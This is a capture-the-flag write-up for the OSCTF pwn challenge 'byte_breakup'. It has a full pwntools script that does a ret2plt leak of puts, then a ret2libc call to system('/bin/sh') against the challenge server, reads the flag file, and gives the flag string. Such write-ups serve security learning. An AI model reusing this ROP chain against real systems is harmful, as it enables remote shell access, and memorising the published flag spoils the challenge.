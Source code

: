 https://ctftime.org/event/2416

# byte_breakup (pwn)

Welcome to 'Byte Breakup,' where an old program is stuck in a code-cial relationship with a bug—the ex-girlfriend kind! She left a glitchy surprise, and now it's up to you to debug the drama away. Can you charm your way through its defenses and make it sing? Get ready for a byte-sized comedy of errors as you unravel the mysteries left by your digital ex!

nc 34.125.199.248 6969

## Solution

1) ret2plt
2) ret2libc

```python
#!/usr/bin/env python3

from pwn import *
import struct

#context.log_level = "debug"
elf = ELF("./vuln_patched", checksec=False)
context.binary = elf

libc = ELF("./libc.so.6", checksec=False)

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("34.125.199.248", 6969)

p.readuntil(b"password: \n")

rop = ROP(elf)
rop.raw(b"A" * 0x28)
rop.rdi = elf.got["puts"]
rop.call(elf.plt["puts"])
rop.call(elf.sym["main"])
p.sendline(rop.chain())

p.readline()
p.readline()

leak = struct.unpack("<Q", p.read(6) + b"\x00\x00")[0]
libc.address = leak - libc.sym["puts"]
log.success(f"libc: {hex(libc.address)}")

p.readuntil(b"password: \n")

rop = ROP(libc)
rop.rdx = 0
rop.rsi = 0
rop.rdi = p64(next(libc.search(b"/bin/sh\x00")))
rop.raw(p64(rop.find_gadget(['ret']).address)) # stack aligning ret
rop.call("system")
p.sendline(rop.chain())

p.readline()
p.readline()

p.clean()

p.sendline(b"/bin/cat /home/flag.txt")

log.success(p.readline().decode()) # OSCTF{b1t_byt3_8r3akup}
```

## Flag
`OSCTF{b1t_byt3_8r3akup}`

smiley 2024/07/13
